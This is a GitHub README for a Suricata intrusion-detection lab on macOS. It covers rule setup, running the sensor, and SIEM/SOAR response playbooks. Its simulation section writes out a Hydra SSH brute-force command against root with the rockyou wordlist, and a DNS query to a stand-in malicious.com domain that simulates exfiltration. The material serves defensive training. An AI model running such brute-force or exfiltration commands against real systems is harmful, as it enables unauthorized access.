







# Real-time detection planning (Security Monitoring 2)

## Suricata — Quick overview

This README documents how to:

1. Verify a Homebrew Suricata installation on macOS.
2. Create and install `local.rules`.
3. Back up and edit `suricata.yaml` so Suricata loads `local.rules`.
4. Validate configuration in test mode (`-T`) and run Suricata live on an interface (e.g., `vmenet0`).
5. Simulate three test cases (ICMP ping, SSH brute-force, DNS exfiltration) and check `fast.log` / `eve.json`.
6. Collect screenshots and commit the lab to Git.

> **Warning**: execute attack/simulation commands **only** inside controlled lab VMs you own (Kali, Parrot, etc.). Do not run offensive tools against third-party systems.

---

## Table of contents

- [Assumed paths (Apple Silicon Homebrew)](#assumed-paths-apple-silicon-homebrew)  
- [1 — Verify Suricata installation](#1---verify-suricata-installation)  
- [2 — Create rules directory and permissions](#2---create-rules-directory-and-permissions)  
- [3 — local.rules content (copy/paste)](#3---localrules-content-copypaste)  
- [4 — Move local.rules to default-rule-path](#4---move-localrules-to-default-rule-path)  
- [5 — Backup `suricata.yaml`](#5---backup-suricatayaml)  
- [6 — Edit `suricata.yaml` to enable `local.rules`](#6---edit-suricatayaml-to-enable-localrules)  
- [7 — Validate (Test mode)](#7---validate-test-mode)  
- [8 — Start Suricata (Live mode)](#8---start-suricata-live-mode)  
- [9 — Monitor alerts in real time](#9---monitor-alerts-in-real-time)  
- [10 — Attack simulations & expected alerts](#10---attack-simulations--expected-alerts)  
- [11 — Screenshots & repo structure](#11---screenshots--repo-structure)  
- [12 — Example Git commit](#12---example-git-commit)  
- [13 — Mermaid network topology (diagram)](#13---mermaid-network-topology-diagram)  
- [14 — Troubleshooting & tips](#14---troubleshooting--tips)  
- [15 — Streaming Analytics Architecture](#15---streaming-analytics-architecture-enterprise-case-study)  
- [16 — Automated Response Capabilities](#16---automated-response-capabilities)  

---

## Assumed paths (Apple Silicon / Homebrew example)

Adjust paths if your Homebrew prefix or Suricata version differ.

- Configuration:  
  `/opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/suricata.yaml`
- Temporary rules (where you created them):  
  `/opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/rules/`
- Default rule path (suricata.yaml default):  
  `/opt/homebrew/var/lib/suricata/rules/`
- Logs:  
  `/opt/homebrew/var/log/suricata/`

---

## 1 - Verify Suricata installation

```bash
brew list suricata
ls /usr/local/etc/suricata/rules/ || true
grep -nE "default-rule-path|rule-files"   /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/suricata.yaml || true
```

---

## 2 - Create rules directory and set permissions

```bash
sudo mkdir -p /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/rules
sudo mkdir -p /opt/homebrew/var/lib/suricata/rules
sudo chown -R $(whoami):staff /opt/homebrew/var/lib/suricata/rules
```

---

## 3 - `local.rules` content (copy/paste)

```bash
sudo tee /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/rules/local.rules > /dev/null <<'EOF'
# Rule 1: SSH Brute Force Attempt
alert tcp any any -> any 22 (msg:"SOC-LAB: SSH Brute Force Attempt"; flags:S; threshold:type both, track by_src, count 5, seconds 60; classtype:attempted-admin; sid:1000001; rev:1;)

# Rule 2: Suspicious DNS Exfiltration
alert udp any any -> any 53 (msg:"SOC-LAB: Suspicious DNS Exfiltration - malicious.com"; content:".malicious.com"; nocase; classtype:policy-violation; sid:1000002; rev:5;)

# Rule 3: ICMP Ping Detection
alert icmp any any -> any any (msg:"SOC-LAB: ICMP Ping Detected"; itype:8; classtype:icmp-event; sid:1000003; rev:1;)
EOF
```

---

## 4 - Move `local.rules` to the `default-rule-path`

```bash
sudo mv /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/rules/local.rules   /opt/homebrew/var/lib/suricata/rules/local.rules

ls -l /opt/homebrew/var/lib/suricata/rules/
```

---

## 5 - Backup `suricata.yaml`

```bash
sudo cp /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/suricata.yaml   /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/suricata.yaml.bak.$(date +%F_%H%M)
```

---

## 6 - Edit `suricata.yaml` to ensure `local.rules` is loaded

```yaml
rule-files:
  - suricata.rules
  - local.rules
```

---

## 7 - Validate configuration (Test mode)

```bash
sudo /opt/homebrew/Cellar/suricata/8.0.0/bin/suricata -T   -c /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/suricata.yaml   -i vmenet0
```

---

## 8 - Start Suricata (Live mode)

```bash
sudo pkill suricata || true
sudo /opt/homebrew/Cellar/suricata/8.0.0/bin/suricata   -c /opt/homebrew/Cellar/suricata/8.0.0/.bottle/etc/suricata/suricata.yaml   -i vmenet0
```

---

## 9 - Monitor alerts in real time

```bash
tail -f /opt/homebrew/var/log/suricata/fast.log
tail -f /opt/homebrew/var/log/suricata/eve.json | jq .
```

---

## 10 - Attack simulations & expected alerts

### ICMP Ping
```bash
ping -c 5 192.168.1.103
```

### SSH brute-force
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.103
```

### DNS exfiltration
```bash
dig test123.malicious.com @8.8.8.8
```

---

## 11 - Screenshots 


<p><em>Figure 1: Suricata installation path</em></p>


<p><em>Figure 2: Suricata running</em></p>


<p><em>Figure 3: ICMP ping alert</em></p>


<p><em>Figure 4: SSH brute force alert</em></p>


<p><em>Figure 5: DNS exfiltration alert</em></p>

---

## 13 - Mermaid network topology 



---

## 14 - Troubleshooting & tips

- **YAML errors** → check indentation, no stray tabs.  
- **No alerts** → confirm rules path matches `default-rule-path`.  
- **Permissions** → `chmod 644` on `local.rules`.  
- **Wrong interface** → check `ifconfig`, use `vmenet0` not `en0`.  

---

## 15 - Streaming Analytics Architecture (Enterprise Case Study)


**Flow explained:**
- **Sensors:** Suricata, Zeek, endpoints, cloud APIs.  
- **Agents:** Filebeat forwards logs to Kafka.  
- **Kafka:** scalable message broker.  
- **Logstash/Fluentd:** parsing + enrichment.  
- **Elasticsearch:** storage + search.  
- **Kibana/Elastic Security:** visualization & correlation.  
- **Alerting + SOAR:** thresholds → automated response.

---

## 16 - Automated Response Capabilities

### SSH Brute Force
- **Trigger:** 5 failed SSH attempts / 60s.  
- **Actions:** GeoIP lookup, firewall block IP, create SOC ticket, Slack notify.  
- **Verify:** firewall logs show block.  
- **Business note:** whitelist VPN ranges.

### DNS Exfiltration
- **Trigger:** `.malicious.com` DNS queries.  
- **Actions:** sinkhole domain, scan endpoint via EDR, notify SOC.  
- **Verify:** no new resolutions.  
- **Business note:** validate overlap with legit domains.

### ICMP Ping Sweep
- **Trigger:** >10 ICMP echo requests in <1 min.  
- **Actions:** rate-limit ICMP, SOC notify.  
- **Verify:** NetFlow confirms drop.  
- **Business note:** avoid blocking all ICMP.

**Response KPIs:**
- **MTTA** (acknowledge time).  
- **MTTR** (containment time).  
- **False Positive Rate.**  
- **Alert-to-Incident Conversion.**

---

## Author & Date

**Prepared by:** Javier Napoles  
**Date:** September 24, 2025
